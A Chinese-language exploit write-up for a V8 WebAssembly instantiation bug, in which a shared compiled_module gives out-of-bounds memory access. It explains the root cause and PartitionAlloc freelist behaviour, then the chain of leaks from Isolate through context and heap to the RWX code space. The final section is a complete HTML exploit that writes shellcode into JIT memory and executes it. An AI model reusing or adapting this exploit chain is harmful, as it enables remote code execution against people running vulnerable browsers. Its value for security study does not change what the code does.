








### wasm

wabt搭建：
```
git clone --recursive https://github.com/WebAssembly/wabt 
cd wabt
make
```

用 010 editer创建二进制文件test.wasm


```
# parse test.wasm and write test.wat
$ bin/wasm2wat test.wasm -o test.wat
```

详细内容可以看下这个文档：http://webassembly.org.cn/getting-started/js-api/

简单介绍一下这段代码：
- WebAssembly 模块可以通过 import 和 export 来导出和引入函数，在此处：(import "mod" "imp" (func (;0;) (type 0))) ，WebAssembly 引入了一个有两个层级的命名空间，同样的，我们必须提供一个两级的命名空间作为 import 对象传递给 instantiate。

```
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
```
- wasm当前有四个可用类型：
    - i32：32位整数
    - i64：64位整数
    - f32：32位浮点数
    - f64：64位浮点数

- 线性内存访问通过显式调用 load 和 store 运算符完成。i32.load: 加载4字节，转换为32位整数;i32.store: (不转换) 存储4字节。

- 总的来说就是导出了两个函数（一个读一个写），引入了一个函数，需要自己实现。

### Root Case

poc：
```
// raw_wasm = ...
var mod = WebAssembly.Module(raw_wasm);
var ffi = {
  mod: {
    get imp() {
      wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});
      spacer = new ArrayBuffer(0x10000);
      return function() {};
    }
  }
};
wasm = WebAssembly.Instance(mod, ffi);
wasm2.exports.memory.grow(1);
// wasm.exports.XXX
```

##### 漏洞成因：

我们在为他实例化时，由于我们在ffi又放了一个实例化wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});，所以会接着再触发一次实例化。

代码：
```
  int ProcessImports(Handle<FixedArray> code_table,
                     Handle<WasmInstanceObject> instance) {
        
    ......
    
      MaybeHandle<Object> result =
          LookupImport(index, module_name, import_name);
```

该函数的作用是按顺序处理imports，包括函数、表、全局变量和内存，从{ffi_}对象加载它们。返回导入函数的数目。

而我们在imports中放置了另一个实例化就会触发上面的回调，在进行一次实例化。

```
      Handle<WasmCompiledModule> original;
      {
        DisallowHeapAllocation no_gc;
        original = handle(module_object_->compiled_module());
        if (original->has_weak_owning_instance()) {
          owner = handle(WasmInstanceObject::cast(
              original->weak_owning_instance()->value()));
        }
      }
      DCHECK(!original.is_null());
      if (original->has_weak_owning_instance()) {
        // Clone, but don't insert yet the clone in the instances chain.
        // We do that last. Since we are holding on to the owner instance,
        // the owner + original state used for cloning and patching
        // won't be mutated by possible finalizer runs.
        DCHECK(!owner.is_null());
        TRACE("Cloning from %d\n", original->instance_id());
        old_code_table = original->code_table();
        compiled_module_ = WasmCompiledModule::Clone(isolate_, original);
        code_table = compiled_module_->code_table();
        // Avoid creating too many handles in the outer scope.
        HandleScope scope(isolate_);

        // Clone the code for WASM functions and exports.
        

        ........
        

      } else {
        // There was no owner, so we can reuse the original.
        compiled_module_ = original;
        old_code_table =
            factory->CopyFixedArray(compiled_module_->code_table());
        code_table = compiled_module_->code_table();
        TRACE("Reusing existing instance %d\n",
              compiled_module_->instance_id());
      }
      compiled_module_->set_native_context(isolate_->native_context());
    }
```

wasm在实例化的时候有个判断，他会根据你是否有owner来判断是否可以重用已有的compiled_module对象。如果有就克隆一个，如果没有就重用已有的compiled_module，这里我们在设置owner之前就出发了wasm2的实例化，所以就导致wasm和wasm2公用一个compiled_module对象。


之后我们在调用wasm2.exports.memory.grow(1);时就会调用update_wasm_memory_reference将两个wasm的wasm_memory_reference同时以旧换新。
```
void RelocInfo::update_wasm_memory_reference(
    Isolate* isolate, Address old_base, Address new_base,
    ICacheFlushMode icache_flush_mode) {
  DCHECK(IsWasmMemoryReference(rmode_));
  DCHECK_GE(wasm_memory_reference(), old_base);
  printf("new_base is :%p\n",new_base);
  printf("old_base is :%p\n",old_base);
  Address updated_reference = new_base + (wasm_memory_reference() - old_base);
  printf("updated_reference is:%p\n",updated_reference);
  // The reference is not checked here but at runtime. Validity of references
  // may change over time.
  unchecked_update_wasm_memory_reference(isolate, updated_reference,
                                         icache_flush_mode);
}
```

### 利用

#### 一、leak

代码如下：
```
  raw_wasm = parse_wasm_module();
  var mod = new WebAssembly.Module(raw_wasm);
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
  wasm = new WebAssembly.Instance(mod, ffi);
  wasm2.exports.memory.grow(1);
  console.log("memory is");
  junk = [];
  console.log("START");
  while (true) {
    junk.push(new ArrayBuffer(8));
    var p1 = read_oob(16).bswap();
    var p2 = read_oob(24).bswap();
    console.log(p1);
    console.log(p2);
    if (p2.sub(p1).val() == 8)
    {
      console.log("ok");
      console.log(p1.str());
      console.log(p2.str());
      break;
    }
  }
  
  var b8ptr = read_oob(8).bswap();
  scratch = b8ptr.sub_u32(0x20010);
```

先用人话说一遍：
- 漏洞成因就是上面的root case。
- oob是如何得到的：
    - 虽然wasm和wasm2共享一个compiled_module，但是它们的memory是拥有不同的arraybuffer的。
    - 我们在对wasm2进行grow的时候，由于arraybuffer并不具有扩张能力，所以就会舍弃旧的arraybuffer，再申请一个新的，此时由于wasm和wasm2共享一个compiled_module，此时就会导致compiled module被混淆，给wasm的memory分配到oob buffer。

    
    实际的内存情况：
    
```
wasm2:

array_buffer:0x3741d01db359 <ArrayBuffer map = 0x36b4222177b1>bk at : 0x283f3902c000
new_base is :0x283f3902c000
old_base is :0x283f3900c000
updated_reference is:0x283f3902c000
new_base is :0x283f3902c000
old_base is :0x283f3900c000
updated_reference is:0x283f3902c000

----------------------------------------------------------------------------------------
wasm:

array_buffer:0x3741d01db5c9 <ArrayBuffer map = 0x36b4222177b1>bk at : 0x283f3903c000
new_base is :0x283f3903c000
old_base is :0x283f3900c000
updated_reference is:0x283f3905c000
new_base is :0x283f3903c000
old_base is :0x283f3900c000
updated_reference is:0x283f3905c000

```
但此时的0x283f3905c000只是compiled module认为的wasm的memory的arraybuffer，并没有实际分配给他，所以我们之后的arraybuffer分配的空间就和wasm的memory重叠了。

junk.push(new ArrayBuffer(8));此时我们去分配一个8大小的arraybuffer他就会分配到这里。

- 这里有个要注意的点，为什么0x283f3905c000会是8大小的bucket，让我们去看下partitionalloc的源码：

```
    if (LIKELY(firstFreelistPointerExtent <= freelistLimit)) {
        // Only consider used space in the slot span. If we consider wasted
        // space, we may get an off-by-one when a freelist pointer fits in the
        // wasted space, but a slot does not.
        // We know we can fit at least one freelist pointer.
        numNewFreelistEntries = 1;
        // Any further entries require space for the whole slot span.
        numNewFreelistEntries += static_cast<uint16_t>((freelistLimit - firstFreelistPointerExtent) / size);
    }

    // We always return an object slot -- that's the +1 below.
    // We do not neccessarily create any new freelist entries, because we cross sub page boundaries frequently for large bucket sizes.
    ASSERT(numNewFreelistEntries + 1 <= numSlots);
    numSlots -= (numNewFreelistEntries + 1);
    page->numUnprovisionedSlots = numSlots;
    page->numAllocatedSlots++;

    if (LIKELY(numNewFreelistEntries)) {
        char* freelistPointer = firstFreelistPointer;
        PartitionFreelistEntry* entry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
        page->freelistHead = entry;
        while (--numNewFreelistEntries) {
            freelistPointer += size;
            PartitionFreelistEntry* nextEntry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
            entry->next = partitionFreelistMask(nextEntry);
            entry = nextEntry;
        }
        entry->next = partitionFreelistMask(0);
    } else {
        page->freelistHead = 0;
    }
    return returnObject;
}
```
在这里我们看到他会根据你是否超过了freelistLimit来决定是否为该partitionpage初始化freelisthead，由于我们这里的memory的arraybuffer大小都是0x1000正好大于了freelistLimit，所以就不会初始化，这样的话后面分配新的arraybuffer就会初始化为对应大小的bucket，这也就是为何junk.push(new ArrayBuffer(8));后0x283f3905c000会成为8大小的bucket：

```
pwndbg> x/20gx 0x283f3905c000
0x283f3905c000:	0x0000000000000000	0x10c005393f280000
0x283f3905c010:	0x18c005393f280000	0x20c005393f280000
0x283f3905c020:	0x28c005393f280000	0x30c005393f280000
0x283f3905c030:	0x38c005393f280000	0x40c005393f280000
```

这样的话调用wasm导出的read函数，就可以很轻易的得到freelist指针。如何用freelist指针计算出superpage等等的方法我们也已经在0ctf的fullchain题目中学习过了。


下面简单记录一下自己在写isolate利用时的心路历程：（我太难了）

### 整体梳理

###### 利用isolate getshell的情形：

- 一般在在v8 6.7版本之前，我们是可以通过修改jsfunction的jit代码来达到向rwx段写入shellocde的目的。
- 在v8 6.7版本之后，jsfunction的jit代码段不再可写，所以我们将目标转向了wasm，二者的思路是一样的只不过是换了一个找rwx的目标。
- 但是上述二者的利用都需要具备leak object地址的能力。

今天要描述的isolate方法就是用来应对无法leak出object地址的情况，他的利用方法如下：
- 1、获得isolate的地址（有两种方法：一、通过leak partitionalloc metadata中的数据来获得。二、利用OOB 在ArrayBuffer的context中获取。）
- 2、通过isolate、context、globalobject、v8 heap、CodeSpace之间的关系依次获取上述地址。
- 在codespace的allocinfo中获取rwx段地址
- 计算出上步获得的rwx地址与jit code段的偏移，覆盖jit调用函数达到getshell。

###### 下面先简单介绍一下上面提到的isolate等等都是什么：

参考资料：https://yjhjstz.gitbooks.io/deep-into-node/content/chapter2/chapter2-0.html

#### Isolate

一个 Isolate 是一个独立的虚拟机。对应一个或多个线程。但同一时刻 只能被一个线程进入。所有的 Isolate 彼此之间是完全隔离的, 它们不能够有任何共享的资源。如果不显式创建 Isolate, 会自动创建一个默认的 Isolate。

一个v8的运行实例对应了一个Isolate，所有运行时的信息都不能采用全局的方式，而是放置在Isolate里，不同的Isolate于是就可以对应不同的运行环境了。

这里借用一个图：


#### Context

从概念上讲，这个上下文环境也可以理解为运行环境。在执行 javascript 脚本的时候，总要有一些环境变量或者全局函数。 我们如果要在自己的 c++ 代码中嵌入 v8 引擎，自然希望提供一些 c++ 编写的函数或者模块，让其他用户从脚本中直接调用，这样才会体现出 javascript 的强大。 我们可以用 c++ 编写全局函数或者类，让其他人通过 javascript 进行调用，这样，就无形中扩展了 javascript 的功能。

Context 可以嵌套，即当前函数有一个 Context，调用其它函数时如果又有一个 Context，则在被调用的函数中 javascript 是以最近的 Context 为准的，当退出这个函数时，又恢复到了原来的 Context。

我们可以往不同的 Context 里 “导入” 不同的全局变量及函数，互不影响。据说设计 Context 的最初目的是为了让浏览器在解析 HTML 的 iframe 时，让每个 iframe 都有独立的 javascript 执行环境，即一个 iframe 对应一个 Context。


#### v8 heap

为了配合垃圾回收，v8将动态内存（堆）分为了以下部分：

- new space: 用来放新建立的对象
- old pointer space: 用来放”旧的”指针
- old data space: 用来放”旧的“数据
- large object space: 用来放占用比较大的对象
- code space: 用来放jit编译的代码
- cell space, property cell space, map space: 对我们来说暂时不重要

#### JIT

v8是一个js的引擎，js是一门动态语言，动态语言相对静态语言来说，由于类型信息的缺失，导致优化非常困难。另外，js是一种“解释性”语言，对于解释性语言来说，解释器的效率就是他运行的效率。所以，为了提高运行效率，v8采用了jit compile的机制，也就是即时编译。

在运行过程中，首先v8会经过一次简单的即时编译，生成字节码，这里使用的jit编译器叫做“基准编译器”(baseline compiler)，这个时候的编译优化相对较少，目的是快速的启动。之后在运行过程当中，当一段代码运行次数足够多，就会触发其他的更优化的编译器，直接编译到二进制代码，后面这个优化后的编译器叫做”TurboFan”。为了实现编译到二进制代码还能够运行，很自然的导致jit代码拥有rwx权限，所以从攻击角度来说，这里就是我们的攻击目标：通过修改jit编译之后的代码，执行shellcode。


### exploite

##### 1、获取isolate

- 通过泄漏freelisthead地址我们可以得到superpage和metadata的地址。
- 在metadata首地址处存储了array_buffer_allocator，他和blink::g_main_thread_per_isolate_data的偏移是固定的，我们可以通过gdb找到blink::g_main_thread_per_isolate_data的地址：


在g_main_thread_per_isolate_data首地址处存储了isolate_data

isolate_data的首地址处存储的值就是Isloate的值。


##### 2、获取context：

我们在api.cc中找到了这么一个函数，他同时包含了context和native_context，我们在该函数处下一个断点，之后通过汇编去查看偏移：


如上图所示我们找到了context位于isolate的+0x1860处，native_context位于context的+0x27处。

##### 3、获取globalobject

依旧是同样的套路我们在global_object处下断，之后通过汇编查看偏移：



可以看到globalobject位于native_context的+0x1f处

##### 4、获取v8 heap

由global获取memorychunk：
memory_chunk = global.and(mku64((1 << 19) - 1).not());


因为memory_chunk结构体比较简单，heap的偏移可以直接从源码算出，如图所示0x38处（注意结构体会对齐）。

##### 5、获取codespace

这个偏移我是断在了frames.cc如下图处：

这里有个点需要注意，虽然从汇编代码看到的的偏移是+0xdf8，但是我们要注意此时heap的基地址是0xcf1c1785000,但是memory_chunk中指向的是heap+0x20处，所以在写exp的时候要注意调整偏移为0xdd8。


memory_chunk中指向的heap：



##### 6、获取allocation_info

还是上面找codespace那个位置下断可以一起找到allocation_info：



如上图所示top和limit的偏移为codespace+0x258、codespace+0x260，结合下面的allocation_info结构体，可以得到他的偏移为codespace+0x250

```
class AllocationInfo {
 public:
  
  ........................
  
 private:
  // The original top address when the allocation info was initialized.
  Address original_top_;
  // Current allocation top.
  Address top_;
  // Current allocation limit.
  Address limit_;
};
```

##### 7、获取rwx以及fsfunction的code段

allocation_info的original_top_也就是首地址处存储了rwx的最高地址也可以理解为limit，我们之后获取rwx可以通过limit-size来获取rwx，这里可以通过%DebugPrint（我用不了，理论上的方法）找到jit的code地址，应该和他同处一个rwx段，计算偏移即可得到jit的code段，之后就可以写入shellcode了


### 最后的最后记录一下我在遇到%DebugPrintf无法使用时的解决办法：

最开始我在v8/src/object.cc中的void JSArrayBuffer::Setup函数处打log，查看了一下arraybuffer初始化时的backing_store的偏移，发现在刚初始化是bk是正常的，于是我在bk处下了一个内存断点，发现后面无法使用%DebugPrintf是因为之后会出发垃圾回收（一直没太搞明白为何会触发）。

开始就一直通过JSArrayBuffer::Setup来找bk，但是后来不幸的事件又增加了，jsfunction也无法用%DebugPrintf，而且原因同上，于是我找了一个新办法：

我大致看了眼代码，发现%DebugPrintf是通过下面的函数实现的，也就是我们可以通过在这个函数下断点，之后模拟%DebugPrintf来进行exp的编写：
void JSObject::JSObjectShortPrint(StringStream* accumulator)

这就是解决%DebugPrintf的一个历程，太搞心态了。。。。。


### 演示时间：




### exp

```
<html>

<script>

var freelist = null;

var scratch = null;

var scratch_buf = null;

var superpage = null;

var freelist_addr = null;

wasm_module="0061736d01000000010b0260017f017f60027f7f00020b01036d6f6403696d7000000303020001050301000107210308726561645f75333200010977726974655f7533320002066d656d6f727902000a1302070020002802000b0900200020013602000b"



async function debug(){

	for(let j = 0; j < 0x10000; j++){

			var x = 1;

		for(let i = 0; i < 0x10000; i++){

			var x = x + i;

		}

	}



}



wasm_xpl_done = false;



function s32_to_u32(s32) {

  if (s32 < 0)

    s32 += 0x100000000;

  return s32;

}



function u32_to_str(u32) {

  var s = u32.toString(16);

  if (s.length < 8)

    s = (new Array(8 - s.length + 1)).join('0') + s

  return s;

}



class u64 {

  constructor(lo, hi) {

    this.lo = s32_to_u32(lo|0);

    this.hi = s32_to_u32(hi|0);

  }

  copy() {

    return new u64(this.lo, this.hi);

  }

  add(v) {

    var lo = this.lo + v.lo;

    var hi = this.hi + v.hi;

    if (lo >= 0x100000000)

      hi++;

    return new u64(lo, hi);

  }

  sub(v) {

    return this.add(v.neg());

  }

  neg() {

    return this.not().add_u32(1);

  }

  add_u32(v) {

    return this.add(mku64(v));

  }

  sub_u32(v) {

    return this.add(mku64(-v));

  }

  shl(b) {

    var r = mku64(0);

    if (b < 32) {

      r.lo = this.lo << b;

      r.hi = (this.hi << b) | (this.lo >>> (32 - b));

    } else if (b < 64) {

      r.hi = this.lo << (b - 32);

    }

    return r;

  }

  shr(b) {

    var r = new u64(0, 0);

    if (b < 32) {

      r.lo = (this.lo >>> b) | (this.hi << (32 - b));

      r.hi = this.hi >>> b;

    } else if (b < 64) {

      r.lo = this.hi >> (b - 32);

    }

    return r;

  }

  and(v) {

    return new u64(this.lo & v.lo, this.hi & v.hi);

  }

  or(v) {

    return new u64(this.lo | v.lo, this.hi | v.hi);

  }

  not() {

    return new u64(~this.lo, ~this.hi);

  }

  bswap() {

    var r = new u64(0, 0);

    var t = this.copy();

    for (var i = 0; i < 8; i++) {

      r = r.shl(8).add_u32(t.lo & 0xff);

      t = t.shr(8);

    }

    return r;

  }

  equals(v) {

    return this.lo == v.lo && this.hi == v.hi;

  }

  is_zero() {

    return this.lo == 0 && this.hi == 0;

  }

  val() {

    return this.hi * 0x100000000 + this.lo;

  }

  str() {

    return '0x' + u32_to_str(this.hi) + u32_to_str(this.lo);

  }

}



function mku64(lo) {

  if (lo < 0)

    return new u64(-lo, 0).neg();

  return new u64(lo, 0);

}



function parse_wasm_module() {

  var len = wasm_module.length / 2;

  var buf = new Uint8Array(len);

  for (var i = 0; i < len; i++) {

    hex = '0x' + wasm_module.substring(i * 2, i * 2 + 2);

    buf[i] = parseInt(hex);

  }

  return buf;

}



function arr_to_u64(arr) {

  return new u64(arr[0], arr[1]);

}



function u64_to_arr(u64, arr) {

  console.log(u64.hi);

  console.log(u64.lo);

  arr[0] = u64.lo;

  arr[1] = u64.hi;

  console.log(arr[0]);

  console.log(arr[1]);

}



function parse_wasm_module() {

  var len = wasm_module.length / 2;

  var buf = new Uint8Array(len);

  for (var i = 0; i < len; i++) {

    hex = '0x' + wasm_module.substring(i * 2, i * 2 + 2);

    buf[i] = parseInt(hex);

  }

  return buf;

}



function arr_to_u64(arr) {

  return new u64(arr[0], arr[1]);

}



function u64_to_arr(u64, arr) {

  arr[0] = u64.lo;

  arr[1] = u64.hi;

}



function read_oob(off) {

  var lo = wasm.exports.read_u32(off);

  var hi = wasm.exports.read_u32(off + 4);

  return new u64(lo, hi);

}



function write_oob(off, val) {

  wasm.exports.write_u32(off, val.lo);

  wasm.exports.write_u32(off + 4, val.hi);

}



function read(addr) {

  u64_to_arr(addr, freelist);

  var b = new Uint32Array();

  b.buffer;

  junk.push(b);

  return arr_to_u64(freelist).bswap();

}





function write(addr, val) {

  u64_to_arr(addr, freelist);

  //debug();

  var rw = new Uint32Array(2);

  rw.buffer;

  //debug();

  u64_to_arr(val, rw);

  //debug();

  junk.push(rw);

}



function setup_wasm_rw() {

  raw_wasm = parse_wasm_module();

  var mod = new WebAssembly.Module(raw_wasm);

  var ffi = {

    mod: {

      get imp() {

        console.log('getter');

        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});

        spacer = new ArrayBuffer(0x10000);

        return function() {};

      }

    }

  };

  wasm = new WebAssembly.Instance(mod, ffi);

  wasm2.exports.memory.grow(1);

  console.log("memory is");

  junk = [];

  console.log("START");

  while (true) {

    junk.push(new ArrayBuffer(8));

    var p1 = read_oob(16).bswap();

    var p2 = read_oob(24).bswap();

    console.log(p1);

    console.log(p2);

    if (p2.sub(p1).val() == 8)

    {

      console.log("ok");

      console.log(p1.str());

      console.log(p2.str());

      break;

    }

  }

  var b8ptr = read_oob(8).bswap();

  scratch = b8ptr.sub_u32(0x20010);

  scratch_buf = new DataView(wasm2.exports.memory.buffer);

  console.log('scratch: ' + scratch.str());

  var superpage_mask = mku64((1 << 21) - 1);

  superpage = b8ptr.and(superpage_mask.not());

  var partition_page_idx = b8ptr.and(superpage_mask).shr(14).val()

  var freelist_addr = superpage.add_u32(0x1000 + partition_page_idx * 0x20);

  console.log('freelist_addr : ' + freelist_addr.str());

  write_oob(8, freelist_addr.bswap())

  junk.push(new ArrayBuffer(8));

  freelist = new Uint32Array(2);

  freelist.buffer;

  // read() and write() are ready

}



function field(obj, idx) {

  return read(obj.add_u32(idx * 8 - 1));

}



function get_rwx() {

  var memory_chunk = global.and(mku64((1 << 19) - 1).not());

  console.log('memory_chunk: ' + memory_chunk.str());

  //debug();

  var heap = read(memory_chunk.add_u32(0x38));

  console.log('heap: ' + heap.str());

  var code_space = read(heap.add_u32(0xdd8));

  console.log('code_space: ' + code_space.str());

  var alloc_info = code_space.add_u32(0x250);

  console.log('alloc_info: ' + alloc_info.str());

  var limit = read(alloc_info.add_u32(0x10));

  var rwx = limit.sub_u32(0x13ef00+0xbb8c0);

  console.log('rwx: ' + rwx.str());

  //debug();

  return rwx;

}



function find_global() {

  array_buffer_allocator = read(superpage.add_u32(0x1000));

  console.log('array_buffer_allocator: ' + array_buffer_allocator.str());

  //debug();

  var isolate_data = read(array_buffer_allocator.add_u32(0x820c390));

  isolate = read(isolate_data);

  console.log('isolate: ' + isolate.str());

  var context = read(isolate.add_u32(0x1860));

  console.log('context: ' + context.str());

  var native_context = field(context, 2 + 3);

  console.log('native_context: ' + native_context.str());

  //debug();

  global = field(native_context, 2 + 2);

  console.log('global: ' + global.str());

}





function run_wasm_exploit() {

  //debug();

  function jit(x, y) {

     for(var i = 0; i < 1000; i += 1){

          return x * y / (x*i);

     }

  }

  jit.name;

  setup_wasm_rw();

  find_global();

  var rwx = get_rwx();

  var mprotect_stub = [ 

    0x90909090,0x90909090,0x782fb848,0x636c6163,

    0x48500000,0x73752fb8,0x69622f72,0x8948506e,

    0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,

    0x50000030,0x4944b848,0x414c5053,0x48503d59,

    0x3148e289,0x485250c0,0xc748e289,0x00003bc0,

    0x050f00 

    ];

  for (var i = 0; i < mprotect_stub.length; i += 2){

    console.log('start');

    console.log('rwx: ' + rwx.str());

    write(rwx.add_u32(i * 4), new u64(mprotect_stub[i], mprotect_stub[i + 1]));

  }

  jit();

  wasm_xpl_done = true;

}



run_wasm_exploit();

console.log('end');



</script>

</html>
```